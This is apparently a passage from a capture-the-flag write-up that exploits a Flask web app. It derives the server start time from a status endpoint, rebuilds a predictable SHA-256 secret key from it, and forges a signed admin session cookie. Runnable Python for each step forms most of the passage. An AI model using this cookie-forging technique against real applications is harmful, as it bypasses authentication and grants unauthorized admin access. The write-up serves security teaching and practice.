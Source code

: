 ```python
    current_time = datetime.strptime(current_time_str, '%Y-%m-%d %H:%M:%S')

    # Calculate server start time
    server_start_time = current_time - uptime
    server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')

    return server_start_str
```
- sends a GET request to `/status` and parses the response to extract `server uptime` and `server time`.
- It calculates the `server_start_time` by subtracting `uptime` from `current_time`.
- Formats the `server_start_time` to match the secret key generation pattern.

### Step 2: Reconstruct the Secret Key

```python
def get_secure_key(server_start_str):
    secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
    return secure_key
```

- Uses the derived `server_start_str` to reconstruct the `secure_key` by hashing the string `secret_key_<server_start_str>` with SHA-256.

### Step 3: Forge the Session Cookie

```python
def forge_session_cookie(secure_key):
    app = Flask(__name__)
    app.secret_key = secure_key

    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

    # The secret UUID used in the application
    secret_uuid = uuid.UUID('31333337-1337-1337-1337-133713371337')
    admin_uid = str(uuid.uuid5(secret_uuid, 'administrator'))

    session_data = {
        'username': 'administrator',
        'uid': admin_uid,
        'is_admin': True
    }

    session_cookie = session_serializer.dumps(session_data)
    return session_cookie
```

- Initializes a Flask app instance with the reconstructed `secure_key`.
- Utilizes Flask's `SecureCookieSessionInterface` to serialize the session data.
- Sets `username` to `'administrator'`, calculates the corresponding `uid` using UUIDv5 with the known `secret_uuid`, and sets `is_admin` to `True`.
- Generates a forged signed session cookie that mimics a valid admin session.
